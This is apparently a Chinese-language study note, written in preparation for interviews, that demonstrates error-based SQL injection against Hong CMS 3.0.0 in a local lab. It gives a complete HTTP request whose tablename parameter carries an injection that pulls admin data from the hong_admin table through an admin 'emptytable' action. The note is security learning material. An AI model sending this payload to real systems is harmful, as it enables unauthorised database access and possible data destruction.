 # 0x00 前言
360的笔试和前两天的面试都问道这个问题了，只不过360是sql server，然后后来的面试问的是MySQL，以前感觉自己好像都会了，但是当真正遇到问题才发现不是想想中的样子。。

# 0x01 先来MySQL（这个环境好搭建一点）
环境
- Windows server2008
- IIS
- Hong cms 3.0.0

# 0x02 注入payload
采用报错注入，因为
```
GET /admin/index.php/database/operate?dbaction=emptytable&tablename=hong_vvc%60where%20vvcid=1%20or%20(select%201%20from%20(select%20count(*),concat((select%20loginnum%20from%20hong_admin),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%20or%20%60 HTTP/1.1
Host: 192.168.72.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.72.131/admin/index.php/database
Connection: keep-alive
Cookie: O0oqZrypyswqadmin=104918af865ae8146284b36ed2c5c907
Upgrade-Insecure-Requests: 1

```